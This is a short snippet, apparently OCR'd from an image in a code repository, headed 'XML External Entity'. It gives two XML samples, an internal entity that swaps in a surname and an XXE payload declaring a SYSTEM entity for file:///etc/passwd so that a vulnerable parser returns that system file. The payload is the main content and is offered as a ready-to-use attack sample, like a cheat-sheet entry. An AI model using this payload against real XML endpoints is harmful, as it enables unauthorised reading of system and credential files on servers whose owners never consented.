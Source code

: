# XML External Entity

<!DOCTYPE replace [<!ENTITY name "feast"> ]>
 <userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
 </userInfo>


<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
